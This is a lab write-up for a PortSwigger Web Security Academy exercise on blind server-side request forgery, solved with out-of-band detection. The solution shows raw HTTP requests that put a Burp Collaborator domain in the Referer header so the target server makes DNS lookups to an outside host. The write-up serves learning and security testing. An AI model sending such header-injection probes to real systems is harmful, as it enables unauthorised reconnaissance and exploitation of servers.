




# Blind SSRF with out-of-band detection

## Lab Description :


## Overview :
It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

## Solution :
When one of the product page is loaded , the request is sent like this,
```html
GET /product?productId=1 HTTP/2
Host: 0a28007a04eb67258026ee2600ea0005.web-security-academy.net
Cookie: session=bqJhhLwvjm3qUsYssASc6BNqdEUO7Stg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://v40ftrlbdp89z443aqzb8tuualgb40.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
Since it is mentioned that the site uses analytics software which fetches the URL specified in the Referer header , we can try giving burp collaborator address in the Referrer header - 
``v40ftrlbdp89z443aqzb8tuualgb40.oastify.com``

```html
GET /product?productId=1 HTTP/1.1
Host: 0a28007a04eb67258026ee2600ea0005.web-security-academy.net
Cookie: session=bqJhhLwvjm3qUsYssASc6BNqdEUO7Stg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: v40ftrlbdp89z443aqzb8tuualgb40.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
We get a 200 OK response,



We can also see that few DNS requests were made to our burp collaborator server.



And thus the lab is solved



#### Visit The Next Page For The Next Level :)
